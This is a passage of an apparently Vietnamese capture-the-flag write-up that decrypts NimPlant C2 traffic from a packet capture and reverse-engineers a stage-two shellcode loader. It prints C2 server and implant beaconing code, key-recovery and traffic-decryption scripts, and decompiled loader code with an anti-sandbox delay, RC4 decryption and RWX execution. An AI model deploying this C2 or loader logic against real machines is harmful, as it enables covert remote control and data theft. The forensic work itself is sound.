        self.hostname = None
        self.os_build = None
        self.pid = None
        self.pname = None
        self.risky_mode = None
        self.sleep_time = initialSleepTime
        self.sleep_jitter = initialSleepJitter
        self.kill_date = killDate
        self.first_checkin = None
        self.last_checkin = None
        self.pending_tasks: List[str] = []
        self.hosting_file = None
        self.receiving_file = None
        # Generate random, 16-char key for crypto operations
        self.encryption_key = "".join(
            choice(string.ascii_letters + string.digits) for x in range(16)
        )
    def activate(
        self,
        ip_external,
        ip_internal,
        username,
        hostname,
        os_build,
        pid,
        pname,
        risky_mode,
    ):
        self.active = True
        self.ip_external = ip_external
        self.ip_internal = ip_internal
        self.username = username
        self.hostname = hostname
        self.os_build = os_build
        self.pid = pid
        self.pname = pname
        self.risky_mode = risky_mode
        self.first_checkin = func.timestamp()
        self.last_checkin = func.timestamp()
        func.nimplant_print(
            f"NimPlant #{self.id} ({self.guid}) checked in from {username}@{hostname} at '{ip_external}'!\n"
            f"OS version is {os_build}."
        )
        # Create new Nimplant object in the database
        db.db_initialize_nimplant(self, np_server.guid)
    def restore_from_database(self, db_nimplant):
        self.id = db_nimplant["id"]
        self.guid = db_nimplant["guid"]
        self.active = db_nimplant["active"]
        self.late = db_nimplant["late"]
        self.ip_external = db_nimplant["ipAddrExt"]
        self.ip_internal = db_nimplant["ipAddrInt"]
        self.username = db_nimplant["username"]
        self.hostname = db_nimplant["hostname"]
        self.os_build = db_nimplant["osBuild"]
        self.pid = db_nimplant["pid"]
        self.pname = db_nimplant["pname"]
        self.risky_mode = db_nimplant["riskyMode"]
        self.sleep_time = db_nimplant["sleepTime"]
        self.sleep_jitter = db_nimplant["sleepJitter"]
        self.kill_date = db_nimplant["killDate"]
        self.first_checkin = db_nimplant["firstCheckin"]
        self.last_checkin = db_nimplant["lastCheckin"]
        self.hosting_file = db_nimplant["hostingFile"]
        self.receiving_file = db_nimplant["receivingFile"]
        self.encryption_key = db_nimplant["cryptKey"]
    def checkin(self):
        self.last_checkin = func.timestamp()
        self.late = False
        if self.pending_tasks:
            for t in self.pending_tasks:
                task = json.loads(t)
                if task.get("command") == "kill":
                    self.active = False
                    func.nimplant_print(
                        f"NimPlant #{self.id} killed.",
                        self.guid,
                        task_guid=task.get("guid"),
                    )
        db.db_update_nimplant(self)
    def get_last_checkin_seconds(self):
        if self.last_checkin is None:
            return None
        last_checkin_datetime = datetime.strptime(
            self.last_checkin, func.TIMESTAMP_FORMAT
        )
        now_datetime = datetime.now()
        return (now_datetime - last_checkin_datetime).seconds
    def is_active(self):
        if not self.active:
            return False
        return self.active
    def is_late(self):
        # Check if the check-in is taking longer than the maximum expected time (with a 10s margin)
        if not self.active:
            return False
        if self.get_last_checkin_seconds() > (
            self.sleep_time + (self.sleep_time * (self.sleep_jitter / 100)) + 10
        ):
            if self.late:
                return True
            self.late = True
            func.nimplant_print("NimPlant is late...", self.guid)
            db.db_update_nimplant(self)
            return True
        else:
            self.late = False
            return False
    def kill(self):
        self.add_task(["kill"])
    def get_info_pretty(self):
        return func.pretty_print(vars(self))
    def get_next_task(self):
        task = self.pending_tasks[0]
        self.pending_tasks.remove(task)
        return task
    def add_task(self, task, task_friendly=None):
        # Log the 'friendly' command separately, for use with B64-driven commands such as inline-execute
        if task_friendly is None:
            task_friendly = " ".join(task)
        command = task[0]
        args = task[1:] if len(task) > 1 else []
        task = " ".join(task)
        guid = "".join(
            random.choice(string.ascii_letters + string.digits) for i in range(8)
        )
        self.pending_tasks.append(
            json.dumps({"guid": guid, "command": command, "args": args})
        )
        db.db_nimplant_log(self, task_guid=guid, task=task, task_friendly=task_friendly)
        db.db_update_nimplant(self)
        return guid
    def set_task_result(self, task_guid, result):
        if result == "NIMPLANT_KILL_TIMER_EXPIRED":
            # Process NimPlant self destruct
            self.active = False
            func.nimplant_print(
                "NimPlant announced self-destruct (kill date passed). RIP.", self.guid
            )
        else:
            # Parse new sleep time if changed
            if result.startswith("Sleep time changed"):
                rsplit = result.split(" ")
                self.sleep_time = int(rsplit[4])
                self.sleep_jitter = int(rsplit[6].split("%")[0][1:])
            # Process result
            func.nimplant_print(result, self.guid, task_guid=task_guid)
        db.db_update_nimplant(self)
    def cancel_all_tasks(self):
        self.pending_tasks = []
        db.db_update_nimplant(self)
    def host_file(self, file):
        self.hosting_file = file
        db.db_update_nimplant(self)
    def stop_hosting_file(self):
        self.hosting_file = None
        db.db_update_nimplant(self)
    def receive_file(self, file):
        self.receiving_file = file
        db.db_update_nimplant(self)
    def stop_receiving_file(self):
        self.receiving_file = None
        db.db_update_nimplant(self)
# Initialize global class to keep nimplant objects in
np_server = Server()
```

### 3.3. Phân tích `encryption_key` và phía client

 thấy encryption_key được tạo khi khởi tạo object NimPlant:

```python
self.encryption_key = "".join(
    choice(string.ascii_letters + string.digits) for x in range(16)
)
```

Vậy encryption_key là key random dài 16 ký tự dùng cho crypto của session này.

Phía client cũng xác nhận cách xử lý field k trong client/util/webClient.nim:

```nim
import base64, json, puppy
from strutils import split, toLowerAscii, replace
from unicode import toLower
from os import parseCmdLine
import crypto
import strenc
# Define the object with listener properties
type
    Listener* = object
        id* : string
        initialized* : bool
        registered* : bool
        listenerType* : string
        listenerHost* : string
        listenerIp* : string
        listenerPort* : string
        registerPath* : string
        sleepTime* : int
        sleepJitter* : float
        killDate* : string
        taskPath* : string
        resultPath* : string
        userAgent* : string
        cryptKey* : string
# HTTP request function
proc doRequest(li : Listener, path : string, postKey : string = "", postValue : string = "") : Response =
    try:
        # Determine target: Either "TYPE://HOST:PORT" or "TYPE://HOSTNAME"
        var target : string = toLowerAscii(li.listenerType) & "://"
        if li.listenerHost != "":
            target = target & li.listenerHost
        else:
            target = target & li.listenerIp & ":" & li.listenerPort
        target = target & path
        # GET request
        if (postKey == "" or postValue == ""):
            var headers: seq[Header]
            # Only send ID header once listener is registered
            if li.id != "":
                headers = @[
                        Header(key: "X-Identifier", value: li.id),
                        Header(key: "User-Agent", value: li.userAgent)
                    ]
            else:
                headers = @[
                        Header(key: "User-Agent", value: li.userAgent)
                    ]
            let req = Request(
                url: parseUrl(target),
                verb: "get",
                headers: headers,
                allowAnyHttpsCertificate: true,
                )
            return fetch(req)
        # POST request
        else:
            let req = Request(
                url: parseUrl(target),
                verb: "post",
                headers: @[
                    Header(key: "X-Identifier", value: li.id),
                    Header(key: "User-Agent", value: li.userAgent),
                    Header(key: "Content-Type", value: "application/json")
                    ],
                allowAnyHttpsCertificate: true,
                body: "{\"" & postKey & "\":\"" & postValue & "\"}"
                )
            return fetch(req)
    except:
        # Return a fictive error response to handle
        var errResponse = Response()
        errResponse.code = 500
        return errResponse
# Init NimPlant ID and cryptographic key via GET request to the registration path
# XOR-decrypt transmitted key with static value for initial exchange
proc init*(li: var Listener) : void =
    # Allow us to re-write the static XOR key used for pre-crypto operations
    const xor_key {.intdefine.}: int = 459457925
    var res = doRequest(li, li.registerPath)
    if res.code == 200:
        li.id = parseJson(res.body)["id"].getStr()
        li.cryptKey = xorString(base64.decode(parseJson(res.body)["k"].getStr()), xor_key)
        li.initialized = true
    else:
        li.initialized = false
# Initial registration function, including key init
proc postRegisterRequest*(li : var Listener, ipAddrInt : string, username : string, hostname : string, osBuild : string, pid : int, pname : string, riskyMode : bool) : void =
    # Once key is known, send a second request to register nimplant with initial info
    var data = %*
        [
            {
                "i": ipAddrInt,
                "u": username,
                "h": hostname,
                "o": osBuild,
                "p": pid,
                "P": pname,
                "r": riskyMode
            }
        ]
    var dataStr = ($data)[1..^2]
    let res = doRequest(li, li.registerPath, "data", encryptData(dataStr, li.cryptKey))
    if (res.code != 200):
        # Error at this point means XOR key mismatch, abort
        li.registered = false
    else:
        li.registered = true
type
  Command = object
    guid: string
    command: string
    args: seq[string]
# Watch for queued commands via GET request to the task path
proc getQueuedCommand*(li : Listener) : (string, string, seq[string]) =
    var
        res = doRequest(li, li.taskPath)
        cmdGuid : string
        cmd : string
        args : seq[string]
    # A connection error occurred, likely team server has gone down or restart
    if res.code != 200:
        cmd = obf("NIMPLANT_CONNECTION_ERROR")
        when defined verbose:
            echo obf("DEBUG: Connection error, got status code: "), res.code
    # Otherwise, parse task and arguments (if any)
    else:
        try:
            # Attempt to parse task (parseJson() needs string literal... sigh)
            var responseData = decryptData(parseJson(res.body)["t"].getStr(), li.cryptKey) #.replace("\'", "\\\"")
            var parsedResponseData = parseJson(responseData)
            var jsonData = to(parsedResponseData, Command)
            # Get the task and task GUID from the response
            cmdGuid = jsonData.guid
            cmd = jsonData.command
            args = jsonData.args
        except:
            # No task has been returned
            cmdGuid = ""
            cmd = ""
    result = (cmdGuid, cmd, args)
# Return command results via POST request to the result path
proc postCommandResults*(li : Listener, cmdGuid : string, output : string) : void =
    var data = obf("{\"guid\": \"") & cmdGuid & obf("\", \"result\":\"") & base64.encode(output) & obf("\"}")
    discard doRequest(li, li.resultPath, "data", encryptData(data, li.cryptKey))
# Announce that the kill timer has expired
proc killSelf*(li : Listener) : void =
    if li.initialized:
        postCommandResults(li, "", obf("NIMPLANT_KILL_TIMER_EXPIRED"))
```

## 4. Khôi phục session key từ field `k`

Cụ thể

```nim
const xor_key {.intdefine.}: int = 459457925
li.id = parseJson(res.body)["id"].getStr()
li.cryptKey = xorString(base64.decode(parseJson(res.body)["k"].getStr()), xor_key)
```

Như vậy field k là key đã bị XOR rồi base64 encode:

```text
k = base64(xor(encryption_key, xor_key))
```

Do đó để lấy key thật, cần base64 decode field k, sau đó XOR ngược với xor_key = 459457925. Với k = opO2j7SMi7iSsoqVh5uZpA==

```python
import base64
k = base64.b64decode("opO2j7SMi7iSsoqVh5uZpA==")
x = 0xf800
res = b""
for c in k:
    mask = (x & 0xff) ^ ((x >> 8) & 0xff) ^ ((x >> 16) & 0xff) ^ ((x >> 24) & 0xff)
    res += bytes([c ^ mask])
    x += 1
print(res.decode())
```

, kết quả thu được là:

```text
ZjLtHquGbCxfsnoS
```



## 5. Decrypt traffic NimPlant và lấy part 1

Tiếp tục sử dụng tshark để lấy nhanh các giá trị base64 trong field data của HTTP request.

```bash
tshark -r capture.pcapng \
-Y 'http.request.method == "POST" && http.file_data contains "\"data\""' \
-T fields -e http.file_data |
while read hexdata; do
    echo "$hexdata" | xxd -r -p | jq -r '.data'
done > data.txt
```

Rồi sử dụng script mô phỏng cách mà C2 của NimPlant decrypt dữ liệu trong traffic.

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util import Counter
key = "ZjLtHquGbCxfsnoS"
input_file = "data.txt"
output_file = "decrypted.txt"
def decrypt_data(blob):
    data = base64.b64decode(blob)
    iv = data[:16]
    ct = data[16:]
    ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
    aes = AES.new(key.encode(), AES.MODE_CTR, counter=ctr)
    return aes.decrypt(ct).decode(errors="ignore").rstrip("\x00")
with open(input_file, "r") as f, open(output_file, "w") as out:
    for line in f:
        blob = line.strip()
        if blob:
            out.write(decrypt_data(blob))
            out.write("\n")
```



Kết quả thu được file chứa các JSON plaintext của NimPlant. Trong mỗi JSON, field result chính là output của lệnh nhưng vẫn đang được encode base64.

Tách các đoạn result ra bằng script sau:

```python
import json
with open("b64.txt", "w") as out:
    for line in open("decrypted.txt", errors="ignore"):
        try:
            obj = json.loads(line)
            if "result" in obj:
                out.write(obj["result"] + "\n")
        except:
            pass
```

Sau khi tách ra và decode base64, thu được nhiều dữ liệu plaintext như username, current directory, ipconfig, process list,... Tuy nhiên trong đó có một đoạn rất dài sau khi decode vẫn chưa ra plaintext mà vẫn ở base64



Decode base64 lần nữa, sau khi decode xong thì thấy nội dung sau decode thực chất là 1 file nén gzip:

```bash
cat base64.txt | base64 -d > final.bin
file final.bin
```



Vậy giờ cần extract file gzip này ra

```bash
gzip -dc final.bin > final.txt
```

Check được file final.txt thực chất là file png, đổi định dạng file để lấy được nội dung ảnh



Vậy là thu được part1 của flag là HTB{B1G_Br0Th3r_1$_WatCH1ng_

## 6. Tìm part 2 của flag

Tiếp tục để tìm tới part2 của part, quay lại với file pcap thấy được có 1 request ping rất khác so với các .... còn lại



Xem tcp stream thì thấy được thì biết đây là request để tải 1 file gzip về



Vậy giờ export file này ra. Biết được C2 framework được sử dụng là NimPlant C2 và biết rằng khi server upload file xuống client, NimPlant sẽ không gửi file thực thi ở dạng plaintext/raw PE thuần, mà sẽ đóng gói file qua một lớp encode/mã hóa trước khi truyền qua HTTP.

Do đó file export cần decrypt theo đúng cơ chế của NimPlant: base64 decode payload, tách 16 bytes đầu làm IV, dùng session key đã tìm được để decrypt AES-CTR phần còn lại, sau đó decompress dữ liệu sau decrypt để khôi phục file gốc.

Vì vậy mình sử dụng lại script decrypt ở bước trước để decrypt file stage2.bin

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util import Counter
key = "ZjLtHquGbCxfsnoS"
input_file = "stage2.bin"
output_file = "decrypted2.gz"
def decrypt_data(blob):
    data = base64.b64decode(blob)
    iv = data[:16]
    ct = data[16:]
    ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
    aes = AES.new(key.encode(), AES.MODE_CTR, counter=ctr)
    return aes.decrypt(ct).rstrip(b"\x00")
with open(input_file, "rb") as f, open(output_file, "wb") as out:
    for line in f:
        blob = line.strip()
        if blob:
            out.write(decrypt_data(blob))
```

Ở script này sửa lại một chút so với script dùng để decrypt các chuỗi từ data, vì ở bước trước khi decrypt ra là các đoạn text/JSON nên có thể decode UTF-8 và ghi ra file text. Còn ở đây dữ liệu sau khi decrypt không phải text nữa, mà là một file nhị phân đã được nén.

Vì vậy không được dùng:

```text
.decode(errors="ignore")
```

và cũng không được ghi file bằng chế độ text "w". Nếu decode UTF-8 hoặc ghi text, dữ liệu binary sẽ bị hỏng.

Thay vào đó, cần giữ nguyên dữ liệu dạng bytes, mở file bằng "rb" và "wb", rồi ghi trực tiếp kết quả decrypt ra file:

```python
return aes.decrypt(ct).rstrip(b"\x00")
with open(input_file, "rb") as f, open(output_file, "wb") as out:
```

Sau khi decrypt xong, file thu được là dữ liệu nén nhị phân



Extract file này ra

```bash
zlib-flate -uncompress < decrypted2.gz > test3.bin
```

Thu được 1 file PE32+ executable



### 6.1. Phân tích file PE bằng IDA

Sử dụng IDA để phân tích file



Trong hàm main, có một đoạn chương trình khởi tạo và truyền vào một chuỗi đáng chú ý:

```text
xobvrE_x11mb
```

Khả năng đây là key để decrypt gì đó, cụ thể hàm main()

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int ticks; // eax
  int v4; // ebx
  int v5; // ebx
  DWORD LastError; // eax
  int v7; // eax
  _BYTE *v8; // rcx
  unsigned __int8 v9; // r8
  char *v10; // r10
  int v11; // r9d
  char v12; // r11
  unsigned __int8 v13; // di
  __int64 i; // r11
  char v15; // r8
  _BYTE v17[264]; // [rsp+20h] [rbp-108h] BYREF
  DWORD flOldProtect; // [rsp+140h] [rbp+18h] BYREF
  __int64 v19; // [rsp+148h] [rbp+20h] BYREF
  ticks = Xtime_get_ticks();
  v19 = 5;
  v4 = ticks;
  sub_140001280(&v19);
  if ( (double)(int)(Xtime_get_ticks() - v4) / 10000000.0 <= 4.5 )
    exit(0);
  v5 = 0;
  flOldProtect = 0;
  if ( !VirtualProtect(qword_1400014B0, 0x2AFu, 0x40u, &flOldProtect) )
  {
    LastError = GetLastError();
    sub_140001030("Error: %d", LastError);
  }
  v7 = 0;
  v8 = v17;
  do
    *v8++ = v7++;
  while ( v7 < 256 );
  v9 = 0;
  v10 = v17;
  v11 = 0;
  do
  {
    v12 = *v10;
    v9 += *v10 + aXobvreX11mb[v11++ % 0xCu];
    *v10++ = v17[v9];
    v17[v9] = v12;
  }
  while ( v11 < 256 );
  v13 = 0;
  for ( i = 0; i < 687; ++i )
  {
    v5 = (v5 + 1) % 256;
    v15 = v17[v5];
    v13 += v15;
    v17[v5] = v17[v13];
    v17[v13] = v15;
    *((_BYTE *)qword_1400014B0 + i) ^= v17[(unsigned __int8)(v17[v5] + v15)];
  }
  VirtualProtect(qword_1400014B0, 0x2AFu, flOldProtect, &flOldProtect);
  ((void (*)(void))qword_1400014B0[0])();
  return 0;
}
```

Chú ý vào đoạn này



### 6.2. Phân tích thuật toán RC4-like

Hàm main gọi VirtualProtect để đổi quyền vùng nhớ qword_1400014B0:

```c
VirtualProtect(qword_1400014B0, 0x2AFu, 0x40u, &flOldProtect);
```

Ở đây qword_1400014B0 là địa chỉ vùng dữ liệu cần xử lý, 0x2AF là kích thước vùng dữ liệu và 0x40 tương ứng với quyền PAGE_EXECUTE_READWRITE. Điều này cho thấy chương trình chuẩn bị ghi đè nội dung vùng nhớ này và sau đó có khả năng thực thi nó như code.

Tiếp theo, chương trình khởi tạo một mảng 256 byte:

```c
v7 = 0;
v8 = v17;
do
  *v8++ = v7++;
while ( v7 < 256 );
```

Mảng v17 được gán các giá trị từ 0 đến 255. Đây là dấu hiệu của thuật toán RC4, vì RC4 cũng bắt đầu bằng việc khởi tạo S-box gồm 256 phần tử.

Sau đó, chương trình dùng chuỗi xobvrE_x11mb để tráo đổi các phần tử trong mảng v17:

```c
v9 = 0;
v10 = v17;
v11 = 0;
do
{
  v12 = *v10;
  v9 += *v10 + aXobvreX11mb[v11++ % 0xCu]; //xobvrE_x11mb
  *v10++ = v17[v9];
  v17[v9] = v12;
}
while ( v11 < 256 );
```

Ở đoạn này, aXobvreX11mb chính là chuỗi key xobvrE_x11mb. Giá trị 0xC là độ dài key, tức 12 byte. Chương trình lấy từng ký tự trong chuỗi xobvrE_x11mb để làm thay đổi thứ tự các phần tử trong mảng v17. Mảng v17 ban đầu chỉ chứa các giá trị từ 0 đến 255, nhưng sau vòng lặp này, thứ tự các byte trong mảng bị xáo trộn dựa trên key. Bước này giống bước khởi tạo key của RC4, còn gọi là KSA. Trong RC4, key không được dùng để XOR dữ liệu ngay lập tức, mà trước tiên được dùng để tráo đổi một mảng 256 byte. Sau đó mảng đã bị tráo đổi này mới được dùng để sinh ra keystream phục vụ cho việc decrypt dữ liệu.

Tiếp theo, chương trình bắt đầu vòng lặp giải mã dữ liệu tại qword_1400014B0:

```c
v13 = 0;
for ( i = 0; i < 687; ++i )
{
  v5 = (v5 + 1) % 256;
  v15 = v17[v5];
  v13 += v15;
  v17[v5] = v17[v13];
  v17[v13] = v15;
  *((_BYTE *)qword_1400014B0 + i) ^= v17[(unsigned __int8)(v17[v5] + v15)];
}
```

Vòng lặp chạy 687 lần, mà 687 chính là 0x2AF, trùng với kích thước vùng nhớ đã truyền vào VirtualProtect. Trong mỗi vòng lặp, chương trình sinh một byte keystream từ mảng v17, sau đó XOR byte này với từng byte trong qword_1400014B0. Đây là decrypt của RC4: ciphertext XOR keystream để thu được plaintext.

Sau khi decrypt xong, chương trình khôi phục lại quyền cũ của vùng nhớ:

```c
VirtualProtect(qword_1400014B0, 0x2AFu, flOldProtect, &flOldProtect);
```

Cuối cùng, chương trình gọi trực tiếp vùng nhớ vừa được giải mã:

```c
((void (*)(void))qword_1400014B0[0])();
```

Từ các phân tích trên:

- Encrypted shellcode: qword_1400014B0

- Shellcode size: 0x2AF bytes

- Key: xobvrE_x11mb

- Algorithm: RC4-like

Sử dụng script để dump buffer qword_1400014B0 từ binary, sau đó sử dụng thuật toán RC4-like trong hàm main để decrypt và ghi kết quả ra file shellcode.bin.

```python
import struct
KEY = b"xobvrE_x11mb"
VA = 0x1400014B0
SIZE = 0x2AF
INPUT = "test3.exe"
OUTPUT = "shellcode.bin"
data = open(INPUT, "rb").read()
def u16(o): return struct.unpack_from("<H", data, o)[0]
def u32(o): return struct.unpack_from("<I", data, o)[0]
def u64(o): return struct.unpack_from("<Q", data, o)[0]
# Convert VA của buffer trong IDA sang file offset
pe = u32(0x3c)
num_sec = u16(pe + 6)
opt_size = u16(pe + 20)
opt = pe + 24
image_base = u64(opt + 24)
rva = VA - image_base
sec = opt + opt_size
for i in range(num_sec):
    s = sec + i * 40
    vsize = u32(s + 8)
    vaddr = u32(s + 12)
    raw_size = u32(s + 16)
    raw_ptr = u32(s + 20)
    if vaddr <= rva < vaddr + max(vsize, raw_size):
        off = raw_ptr + (rva - vaddr)
        break
enc = data[off:off + SIZE]
# RC4 decrypt với key xobvrE_x11mb
S = list(range(256))
j = 0
for i in range(256):
